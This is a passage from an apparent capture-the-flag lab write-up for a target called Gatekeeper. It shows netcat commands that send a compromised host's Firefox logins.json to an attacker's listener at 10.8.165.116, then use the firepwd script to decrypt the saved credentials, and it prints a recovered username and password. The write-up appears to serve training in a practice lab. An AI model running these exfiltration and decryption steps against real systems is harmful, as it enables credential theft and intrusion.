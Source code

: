 Do the same for the other file:

```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 4444 > logins.json
listening on [any] 4444 ...
```

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>nc -nv 10.8.165.116 4444 < logins.json
nc -nv 10.8.165.116 4444 < logins.json
```

Get the firepwd script:

```text
root@kali:/home/kali/thm/gatekeeper# git clone https://github.com/lclevy/firepwd.git
Cloning into 'firepwd'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 88 (delta 2), reused 1 (delta 0), pack-reused 80
Receiving objects: 100% (88/88), 238.50 KiB | 2.00 MiB/s, done.
Resolving deltas: 100% (41/41), done.
```

Install requirements:

```text
root@kali:/home/kali/thm/gatekeeper# mv key4.db firepwd/
root@kali:/home/kali/thm/gatekeeper# mv logins.json firepwd/
root@kali:/home/kali/thm/gatekeeper# cd firepwd/

root@kali:/home/kali/thm/gatekeeper/firepwd# pip install -r requirements.txt
Collecting PyCryptodome>=3.9.0
Downloading pycryptodome-3.10.1-cp35-abi3-manylinux2010_x86_64.whl (1.9 MB)
 |████████████████████████████████| 1.9 MB 3.4 MB/s
Requirement already satisfied: pyasn1>=0.4.8 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2)) (0.4.8)
Installing collected packages: PyCryptodome
Successfully installed PyCryptodome-3.10.1
```

Now run the script:

```text
root@kali:/home/kali/thm/gatekeeper/firepwd# python3 firepwd.py
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
<SNIP>
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'
```

Excellent we have a user and password. Now we can try to use PSExec to start a remote command prompt using those credentials:

## Impacket
